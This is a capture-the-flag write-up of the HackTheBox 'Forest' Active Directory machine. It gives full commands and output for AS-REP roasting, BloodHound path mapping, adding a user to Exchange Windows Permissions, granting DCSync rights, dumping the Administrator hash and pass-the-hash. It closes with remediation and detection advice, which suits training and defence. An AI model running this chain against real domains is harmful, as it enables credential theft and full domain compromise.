

# HackTheBox - Forest

**OS:** Windows Server 2016 (Active Directory)

Forest is a Windows Active Directory machine on `htb.local`. Anonymous LDAP and null-session SMB expose the full user list. One service account has Kerberos pre-authentication disabled, giving an AS-REP hash that cracks to a plaintext password. From that foothold, BloodHound maps a privilege path through Account Operators and Exchange Windows Permissions that ends with WriteDACL on the domain object, enabling DCSync and a full credential dump.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip> / domain controller` |
| Initial Access | AS-REP roasting to crack a domain credential |
| Privilege Escalation | DCSync rights abuse and pass-the-hash to Administrator |
| Final Access | Domain Administrator / full domain compromise |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was AS-REP roasting to crack a domain credential.
3. Post-exploitation enumeration exposed DCSync rights abuse and pass-the-hash to Administrator.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Anonymous Enumeration

The port scan showed a standard AD profile: DNS, Kerberos, LDAP, SMB, WinRM, and RPC. The domain controller was `FOREST.htb.local`.

LDAP anonymous bind succeeded. `ldapsearch` against `DC=htb,DC=local` returned 30 users, 59 groups, and two computers (`FOREST.htb.local`, `EXCH01.htb.local`) running Windows Server 2016.

```bash
ldapsearch -x -H ldap://<target-ip>:389 -b DC=htb,DC=local \
  '(objectClass=person)' sAMAccountName description
```

Notable user accounts: `sebastien`, `lucinda`, `andy`, `mark`, `santi`, `svc-alfresco`, and a cluster of Exchange health mailbox accounts. No plaintext passwords appeared in any description field.

SMB null session confirmed via nxc, which also returned the user list with last password-set timestamps:

```
nxc smb <target-ip> -u '' -p '' --users

SMB   <target-ip>  445  FOREST  [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB   <target-ip>  445  FOREST  [+] htb.local\:
SMB   <target-ip>  445  FOREST  -Username-                    -Last PW Set-       -BadPW-  -Description-
SMB   <target-ip>  445  FOREST  Administrator                 2021-08-31 00:51:58 0
SMB   <target-ip>  445  FOREST  sebastien                     2019-09-20 22:57:30 0
SMB   <target-ip>  445  FOREST  lucinda                       2019-09-20 22:57:30 0
SMB   <target-ip>  445  FOREST  svc-alfresco                  2019-09-20 22:57:30 0
SMB   <target-ip>  445  FOREST  andy                          2019-09-20 22:57:30 0
SMB   <target-ip>  445  FOREST  mark                          2019-09-20 22:57:30 0
SMB   <target-ip>  445  FOREST  santi                         2019-09-20 23:02:55 0
SMB   <target-ip>  445  FOREST  [*] Enumerated 31 local users: HTB
```

`enum4linux-ng` reproduced the same list and reported a minimum password length of 7. `svc-alfresco` appeared in all three sources.

### Service Summary

| Port | Service | Notes |
|---|---|---|
| 53 | DNS | htb.local |
| 88 | Kerberos | Pre-auth target |
| 389 / 3268 | LDAP | Anonymous bind allowed |
| 445 | SMB | Null session allowed |
| 5985 | WinRM | Used for initial shell |

---

## Initial Access

### ASREPRoasting svc-alfresco

Accounts with `DONT_REQUIRE_PREAUTH` set in their UAC flags can be targeted without knowing their password. The KDC issues an AS-REP encrypted with the account's password hash, which can then be cracked offline.

`impacket-GetNPUsers` tested all enumerated accounts:

```bash
impacket-GetNPUsers htb.local/ -no-pass -dc-ip <target-ip> \
  -request -format hashcat -usersfile users.txt
```

`svc-alfresco` was the only account with pre-auth disabled. The returned hash was a `krb5asrep` type 23:

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:<redacted-32-hex>$370804a4be0dc8601ab9db1b3737ea9808d5b63602e8f9b1248748d3463194d3eb8173ce69517e53fb9fb5818ac11ac9f5e6f6812149963bc9528a3c8c4c0288d0875e45d81afbe8ca9dd930bd93305035ae93e89c7647f79cf469bc91d0bd859a4439bb3e7e18cfaa33860fbd1855c565f6284b705681dd60dbc6bdb2f9af831918b3e71d7ede6aa38a5783ebb9e7f11529f01bb20a5af2a9860b7925a3f565dffc0f30aa33b59ac1cdd38cacc455d221909f70c56c5edd92d69ac0362ccbe4402092ea30e43aaef9a6dac92fc5c8e5269af39dd048f3abff2586b0e72bad71e42d9af59857
```

Hashcat mode 18200 cracked it against `rockyou.txt`:

```
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:<redacted-32-hex>$...:s3rvice

Session..........: hashcat
Status...........: Cracked
```

### Shell via WinRM

```
evil-winrm -i <target-ip> -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami;hostname;ipconfig;type ../Desktop/user.txt
htb\svc-alfresco
FOREST

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1e
   IPv6 Address. . . . . . . . . . . : dead:beef::8d8b:914a:d095:9240
   Link-local IPv6 Address . . . . . : fe80::8d8b:914a:d095:9240%5
   IPv4 Address. . . . . . . . . . . : <target-ip>
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : <target-ip>

Tunnel adapter isatap..htb:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : .htb
5d357[...snip...]fa1735
```

---

## Post-Exploitation and Privilege Escalation

### BloodHound Ingestion

SharpHound collected all AD objects and relationships:

```powershell
.\SharpHound.exe -c All --zipfilename bh.zip
```

The zip was downloaded to the attack box and imported into BloodHound.

### Attack Path: WriteDACL to DCSync

BloodHound mapped the following privilege chain:



- `svc-alfresco` is a member of **Service Accounts**, which is nested into **Privileged IT Accounts**, which is nested into the built-in **Account Operators** group.
- Account Operators has **GenericAll** on the **Exchange Windows Permissions** group. This means any Account Operator member can add users to that group.
- Exchange Windows Permissions holds **WriteDACL** on the `htb.local` domain object. WriteDACL permits the holder to modify the domain's DACL, specifically to grant DCSync rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) to any principal.

The path: foothold account -> Account Operators -> create new user -> add new user to Exchange Windows Permissions -> grant DCSync -> dump all credentials.

### Executing the Path

Create a new user and add it to the Exchange Windows Permissions group and Remote Management Users (for WinRM access):

```powershell
net user void Password123! /add /domain
net group "Exchange Windows Permissions" void /add /domain
net localgroup "Remote Management Users" /add void /domain
```

Use `bloodyAD` to grant `void` DCSync rights by writing the required replication ACEs to the domain object:

```bash
bloodyAD --host <target-ip> -d htb.local -u void -p 'Password123!' add dcsync void
```

Output: `[+] void is now able to DCSync`

### DCSync and Pass-the-Hash

`impacket-secretsdump` pulled the Administrator hash via the DRSUAPI replication protocol:

```
impacket-secretsdump 'htb.local/void:Password123!'@<target-ip> -just-dc-user Administrator

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:<redacted-32-hex>:<redacted-nt-hash>:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:<redacted-32-hex>
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

Pass-the-hash with evil-winrm:

```
evil-winrm -i <target-ip> -u Administrator -H <redacted-nt-hash>

Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami;hostname;ipconfig;type C:\Users\Administrator\Desktop\root.txt
htb\administrator
FOREST

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1e
   IPv6 Address. . . . . . . . . . . : dead:beef::8d8b:914a:d095:9240
   Link-local IPv6 Address . . . . . : fe80::8d8b:914a:d095:9240%5
   IPv4 Address. . . . . . . . . . . : <target-ip>
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : <target-ip>

Tunnel adapter isatap..htb:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : .htb
<redacted-32-hex>
```

---

## Summary

Forest demonstrates the danger of anonymous LDAP/SMB in AD environments and how a single misconfigured account attribute (no Kerberos pre-auth) can open the door to a full domain compromise. The privilege path from `svc-alfresco` to Domain Admin runs entirely through built-in group memberships and ACL delegations put in place for Exchange.

**Key takeaways:**

- Kerberos pre-authentication should be required for all accounts. `DONT_REQUIRE_PREAUTH` is rarely needed and should be audited regularly.
- Account Operators is a high-privilege built-in group. Membership should be treated as equivalent to Domain Admin for practical purposes in environments with Exchange.
- Exchange Windows Permissions holding WriteDACL on the domain is a known Exchange permissions issue. Removing excessive ACEs from the domain object is a standard AD hardening step.
- BloodHound makes privilege paths through nested group memberships and ACL delegations visible where manual enumeration would take hours.

---

## Cleanup

- User `void` created during the attack. Remove with `net user void /delete /domain`.
- DCSync ACEs added to the domain object by `bloodyAD`. Revert with `bloodyAD ... remove dcsync void` before deleting the account.

---

## Root Cause

The demonstrated path worked because Kerberos pre-authentication disabled on a crackable account, excessive replication rights, over-permissive AD object ACLs gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: AS-REP roasting to crack a domain credential created a foothold, and DCSync rights abuse and pass-the-hash to Administrator converted that foothold into Domain Administrator / full domain compromise.

## Impact

Successful exploitation reached Domain Administrator / full domain compromise. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: AS-REP roasting to crack a domain credential.
- Fix the privilege boundary that enabled escalation: DCSync rights abuse and pass-the-hash to Administrator.
- Audit AD privileges with BloodHound/PowerView and remove nonessential tier-0 rights.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: DCSync rights abuse and pass-the-hash to Administrator.
- Collect and review Kerberos, LDAP, certificate, and directory-replication events for nonstandard principals.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between AS-REP roasting to crack a domain credential and DCSync rights abuse and pass-the-hash to Administrator.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
